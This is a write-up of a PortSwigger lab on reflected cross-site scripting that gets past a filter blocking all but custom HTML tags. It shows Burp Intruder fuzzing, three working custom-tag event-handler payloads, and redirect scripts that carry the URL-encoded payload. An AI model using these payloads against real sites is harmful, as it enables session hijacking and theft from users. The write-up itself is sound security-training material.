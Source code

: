 # Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.

# Step 1 Test search funtion for XSS

I find that if I search using html tags, that my output is reflected on the page:
![image](https://user-images.githubusercontent.com/83407557/211054613-0d8c6fb7-ac46-48b7-9c3e-3817e7b66c9a.png)
![image](https://user-images.githubusercontent.com/83407557/211054670-78a3702c-01c8-4baa-a846-43d1ee9f5020.png)

However any attempt to add known tags throws an error:

![image](https://user-images.githubusercontent.com/83407557/211054822-fc162e24-2602-471e-b34b-47ca803a27e7.png)
![image](https://user-images.githubusercontent.com/83407557/211054875-5b856ccd-6354-4e15-a0a2-6d971584058e.png)

# Step 2 Create an intruder attack using custom tags

I capture a test string with burp and send it to intruder:

![image](https://user-images.githubusercontent.com/83407557/211055319-7eb91c5b-a359-4ddb-9e32-405f7a839d6c.png)

I add a payload position on the string "test"

![image](https://user-images.githubusercontent.com/83407557/211055535-ee5d4dec-00fc-4fc8-b111-1c6de3dcfbf8.png)

Using the [Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) I select custom tags with all events, and copy payloads under Event handlesrs that do not require user interaction:

![image](https://user-images.githubusercontent.com/83407557/211057224-1a66daa8-4264-40b3-844d-b11e429bac22.png)

And add the copied payloads from this list into the payloads section of my intruder attack:

![image](https://user-images.githubusercontent.com/83407557/211057684-703cd62f-0c76-4fba-b534-0ea10fba33c3.png)

I find that three of the payloads returned 200 ok response codes:

![image](https://user-images.githubusercontent.com/83407557/211057929-cd2eb43e-02f5-441e-8a0b-7df76f5c048c.png)

```html
<xss id=x tabindex=1 onfocus=alert(1)></xss>

<xss id=x tabindex=1 onfocusin=alert(1)></xss>

<xss id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></xss>
```

# Step 3 URL encode each payload 

I need to add a #x to the payloads to get them to focus on that element with the page is loaded, I will take each on and add it into the searchbar to do the encoding:


```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net/?search=%3Cxss+id%3Dx+tabindex%3D1+onfocus%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = 'https://0af6001904e737f8c0f96d79008d007e.web-security-academy.net//?search=%3Cxss+id%3Dx+tabindex%3D1+onfocusin%3Dalert%281%29%3E%23x%3C%2Fxss%3E';
</script>
```

```html
<script>
  location = '/?search=%3Cxss+id%3Dx+style%3D%22transition%3Aoutline+1s%22+ontransitionend%3Dalert%281%29+tabindex%3D1%3E%3C%2Fxss%3E';
</script>
```

# Step 4 add payloads to attack server

I am going to try each payload in-turn on myself using the attack server:

![image](https://user-images.githubusercontent.com/83407557/211062177-07568575-4baf-4ce1-99ab-3b90fc824302.png)
